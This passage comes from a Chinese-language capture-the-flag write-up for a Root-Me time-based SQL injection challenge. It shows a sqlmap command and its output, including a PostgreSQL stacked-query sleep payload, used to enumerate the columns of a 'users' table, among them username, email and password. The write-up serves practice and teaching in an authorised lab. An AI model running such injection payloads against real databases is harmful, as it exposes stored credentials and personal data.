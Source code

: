 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/09.png)

------------

### 获得指定表的表结构

很明显，`public` 模式下只有一张表 `users` 。

可以通过 sqlmap 的 `-T` 参数指定这张表，再通过 `--columns` 参数查询其表结构：

```shell
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 -D public -T users --columns
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.3.23#dev}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:06:25 /2019-03-17/

[10:06:25] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[10:06:26] [INFO] resuming back-end DBMS 'postgresql'
[10:06:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[10:06:26] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[10:06:26] [INFO] fetching columns for table 'users' in database 'public'
[10:06:27] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:06:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
6
[10:07:06] [INFO] retrieved: id
[10:07:31] [INFO] retrieved: int4
[10:08:21] [INFO] retrieved: username
[10:09:51] [INFO] retrieved: varchar
[10:11:09] [INFO] retrieved: firstname
[10:12:52] [INFO] retrieved: varchar
[10:14:10] [INFO] retrieved: lastname
[10:15:41] [INFO] retrieved: varchar
[10:17:00] [INFO] retrieved: email
[10:17:55] [INFO] retrieved: varchar
[10:22:02] [INFO] retrieved: password
[10:23:42] [INFO] retrieved: varchar
Database: public
Table: users
[6 columns]
+-----------+---------+
| Column    | Type    |
+-----------+---------+
```